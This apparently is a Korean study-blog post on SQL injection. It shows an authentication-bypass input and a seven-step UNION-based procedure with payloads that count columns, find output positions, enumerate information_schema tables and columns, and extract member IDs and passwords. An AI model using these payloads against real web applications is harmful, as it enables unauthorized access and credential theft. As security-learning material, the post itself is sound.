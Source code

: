 ```yaml
---
title: "Week 6 - Union Injection"
date: 2025-05-17
categories: [study]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# 1. SQL Injection: 인증 우회 및 데이터 추출

SQL Injection은 웹 애플리케이션에서 사용자 입력값이 안전하게 처리되지 않을 때 발생하는 취약점입니다. 이 포스트에서는 인증 우회를 포함한 SQL Injection을 통해 **데이터를 추출하는 절차**를 정리합니다.

## 1.1 SQL Injection의 목적

보통 SQL Injection은 다음 두 가지 목적으로 활용됩니다:

- **인증 우회**: 로그인 등의 인증 시스템을 무력화
- **데이터 추출**: 데이터베이스에 저장된 민감한 정보를 외부로 노출

---

# 2. 인증 우회 예시

로그인 로직이 다음과 같이 구현되어 있다고 가정합니다:

```sql
SELECT * FROM user WHERE id = 'doldol' AND pass = '';
```
이때 다음과 같은 입력을 하면 항상 참이 되어 인증이 우회됩니다:
```
' OR '1'='1
```
최종 쿼리:
```
SELECT * FROM user WHERE id = 'doldol' AND pass = '' OR '1'='1';
```
# 3. 데이터 추출이 가능한 조건
데이터를 추출하기 위해선 다음 두 조건 중 하나를 만족해야 합니다:

조건	예시
웹페이지에 데이터가 출력된다	게시판, 검색결과 등
웹페이지에 데이터가 출력되지 않는다	로그인, 아이디 중복체크 등

이번 포스트에선 화면에 데이터가 출력되는 경우를 중심으로 설명합니다.

# 4. UNION을 이용한 SQL Injection
UNION 키워드를 이용하면 두 개 이상의 SELECT 결과를 합쳐서 출력할 수 있습니다.

예시:
```
SELECT pass FROM member UNION SELECT id FROM member;
```
또는:
```
SELECT id, pass FROM member UNION SELECT 'normaltic', 'test';
```
❗ 주의: UNION을 사용할 때는 앞뒤 SELECT문의 컬럼 개수가 같아야 합니다.

# 5. SQL Injection 단계별 분석

## 1단계. Injection 포인트 확인
사용자 입력값이 SQL 쿼리에 반영되고 있는지 확인

페이지 출력 결과를 통해 추측

## 2단계. 컬럼 개수 찾기

```
' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 #
```
오류가 발생하지 않는 최대 인덱스를 통해 컬럼 수 추정 (예: 4개)

## 3단계. 출력 컬럼 위치 찾기

```
' UNION SELECT 1,2,3,4 #
```
어느 숫자가 실제 웹페이지에 출력되는지 확인

출력되는 위치에 민감 정보 삽입 가능

## 4단계. 현재 DB 이름 확인

```
' UNION SELECT 1, database(), 3, 4 #

```
## 5단계. 테이블 이름 확인

```
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema = 'DB이름' #

```
## 6단계. 컬럼 이름 확인

```
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name = '테이블이름' #

```
## 7단계. 데이터 추출

```
' UNION SELECT 1, id, pass, 4 FROM member #

```
